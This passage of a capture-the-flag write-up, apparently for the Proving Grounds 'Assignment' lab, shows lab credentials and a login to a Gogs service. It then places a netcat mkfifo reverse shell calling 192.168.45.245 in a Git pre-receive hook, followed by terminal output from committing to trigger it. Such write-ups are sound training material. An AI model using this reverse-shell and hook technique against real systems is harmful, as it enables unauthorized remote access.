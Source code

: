 ```bsah
    kamino

```

The "forged_owner" credentials are displayed above.

Logging in as the "forged_owner" user we can view the /notes/1 path now that we have sufficient rights.

![note_1](../../../assets/images/ctfs/proving_grounds/assignment/note_1.png)

We have the creds for Jane of port 8000

jane:svc-dev2022@@@!;P;4SSw0Rd

## HTTP | 8000

Located Gogs running on port 8000

Login with the "jane" user credentials discovered above

Create a new repository and select settings.

![githooks](../../../assets/images/ctfs/proving_grounds/assignment/githooks.png)

Generate a reverse shell for "nc mkfifo"

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.245 9001 >/tmp/f
```

Place the reverse shell in the "pre-receive" Git Hooks setting

![revshell_hook](../../../assets/images/ctfs/proving_grounds/assignment/revshell_hook.png)

A reverse shell is obtained by cloning the repository, adding a README file, and the pushing a commit.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/linux/assignment]
└─$ touch README.md

┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/linux/assignment]
└─$ git init
hint: Using 'master' as the name for the initial branch. This default branch name
hint: is subject to change. To configure the initial branch name to use in all
hint: of your new repositories, which will suppress this warning, call:
hint:
hint:   git config --global init.defaultBranch <name>
hint:
hint: Names commonly chosen instead of 'master' are 'main', 'trunk' and
hint: 'development'. The just-created branch can be renamed via this command:
hint:
hint:   git branch -m <name>                                                                            Initialized empty Git repository in /home/vagrant/Documents/PG/PRACTICE/linux/assignment/.git/

┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/linux/assignment]
└─$ git add README.md

──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/linux/assignment]
└─$ git add README.md

┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/linux/assignment]
└─$ git commit -m "first commit"
[master (root-commit) d15c1d5] first commit
 Committer: vagrant <vagrant@kali.>
Your name and email address were configured automatically based
on your username and hostname. Please check that they are accurate.
```